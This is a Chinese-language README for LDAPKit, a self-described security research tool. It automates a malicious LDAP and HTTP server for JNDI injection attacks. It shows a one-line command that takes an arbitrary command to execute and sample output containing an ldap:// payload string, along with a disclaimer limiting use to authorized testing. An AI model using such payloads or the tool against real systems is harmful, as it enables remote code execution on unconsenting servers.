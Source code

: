 # LDAPKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

自用的`LDAP`工具

无需自行编译`Java`文件和开启`HTTP`服务，一切自动

只要一行：`java -jar LDAPKit.jar calc.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|
11:32:56 [INFO] [org.sec.Main] start jndi kit
11:32:56 [INFO] [org.sec.Main] cmd: notepad.exe
11:32:56 [INFO] [org.sec.Http] start http server: 0.0.0.0:8000
11:32:56 [INFO] [org.sec.Ldap] start ldap server: 0.0.0.0:1389
|--------------------------------------------------------|
|------Payload: ldap://127.0.0.1:1389/badClassName-------|
|--------------------------------------------------------|
```

然后......

## 免责申明

**未经授权许可使用`LDAPKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


